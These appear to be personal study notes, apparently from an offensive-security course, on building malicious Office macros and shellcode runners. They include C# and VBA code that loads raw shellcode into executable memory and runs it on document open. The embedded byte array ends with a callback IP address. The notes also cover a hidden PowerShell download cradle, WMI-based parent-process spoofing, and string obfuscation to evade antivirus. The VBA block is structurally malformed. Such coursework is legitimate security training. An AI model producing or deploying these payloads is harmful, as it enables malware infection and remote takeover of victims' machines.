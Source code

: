 
## To Do:
1. 6.8.2 - Update the PowerShell shellcode runner to 64-bit.
2. rc4 encryption and macro obfuscation
3. test those against AV
### Shellcode Runner Again

- Main body consists of the following
```csharp
			int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, 
                IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
```
- `btye[] buf = new byte[###] {...}`
- VirtualAlloc is a Win32 function call and is imported into C# using 

### Using CsWin32 source generator

- Create project in VS Studio Code (C# Console or C# .Net Console app)
- Project needs to be sdk type
- Search for cswin32 and install
- ![[InstallCsWin32.png]]
- need to add addition nuget System.Memory package as well
```ps1

dotnet add package System.Memory

```
- or using VS Code
- ![[NuGetSystemMemory.png]]

- create NativeMethods.txt file in project
- Allow unsafe code
- ![[AllowUnsafeCode.png]]

**TODO** : Not Quite working for me yet. PInvoke."type" mapping doesn't match what was in the mapping from Offsec. Need to go through MS Docs.


### MS Office
- VBA Script to execute payload in memory
```vb
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function mymacro()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As Long
    
    buf = Array(232, 130, 0, 0, 0, 96, 137, 229, 49, 192, 100, 139, 80, 48, 139, 82, 12, 139, 82, 20, 139, 114, 40, 15, 183, 74, 38, 49, 255, 172, 60, 97, 124, 2, 44, 32, 193, 207, 13, 1, 199, 226, 242, 82, 87, 139, 82, 16, 139, 74, 60, 139, 76, 17, 120, 227, 72, 1, 209, 81, 139, 89, 32, 1, 211, 139, 73, 24, 227, 58, 73, 139, 52, 139, 1, 214, 49, 255, 172, 193, _
...
49, 57, 50, 46, 49, 54, 56, 46, 49, 55, 54, 46, 49, 52, 50, 0, 187, 224, 29, 42, 10, 104, 166, 149, 189, 157, 255, 213, 60, 6, 124, 10, 128, 251, 224, 117, 5, 187, 71, 19, 114, 111, 106, 0, 83, 255, 213)

    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
    Next counter
    
    res = CreateThread(0, 0, addr, 0, 0, 0)

Sub Document_Open()
    mymacro
End Sub

Sub AutoOpen()
    mymacro
End Sub

End Function
```


### Powershell inside VBA

- Download cradle: hide a `powershell -exec bypass -nop -c iex()` inside a macro as a starting point
- call Shell stringArg, vbHide which will trigger some AV products
- problem is that Powershell becomes a child process of the calling MS Office program
- _Windows Management Instrumentation_ (WMI) framework can be leveraged to move around this
	- "**Windows Management Instrumentation** (**WMI**) consists of a set of extensions to the [Windows Driver Model](https://en.wikipedia.org/wiki/Windows_Driver_Model "Windows Driver Model") that provides an [operating system](https://en.wikipedia.org/wiki/Operating_system "Operating system") interface through which [instrumented](https://en.wikipedia.org/wiki/Instrumentation_(computer_programming) "Instrumentation (computer programming)") components provide information and notification." (https://en.wikipedia.org/wiki/Windows_Management_Instrumentation)
- Leverage WMI for process creation bypassing of MS Office and use WMI for the parent process
- To create a process, will need to use Win32_Process to instantiate
```vb
Sub MyMacro
  strArg = "powershell"
  GetObject("winmgmts:").Get("Win32_Process").Create strArg, Null, Null, pid
End Sub

Sub AutoOpen()
    Mymacro
End Sub
```
- this will create a child Powershell process of the parent process Wmiprvse.exe

### TODO: re 64 vs 32 bit code (need to test this out)

- to circumvent running powershell in 32-bit mode on 64-bit system, one can use the Sysnative directory
- The **Sysnative** folder is only available in a 64-bit Windows
```powershell
%windir%\sysnative\WindowsPowerShell\v1.0\powershell.exe -file myScript.ps1
```
- can try checking directory and if exists, run 64-bit; otherwise, run 32-bit
```vb
If My.Computer.FileSystem.DirectoryExists("C:\backup\logs") Then
    Dim logInfo = My.Computer.FileSystem.GetDirectoryInfo(
        "C:\backup\logs")
End If
```


### TODO: check out EvilClippy

#### Obfuscation methods:

- StrReverse (string reverse) to break signature detection of WMI calls, etc...
- create a function that just calls StrReverse so that VBA code isn't littered with StrReverse calls 
- convert strings to charcode and encrypt the string
- obfuscate variable and function names
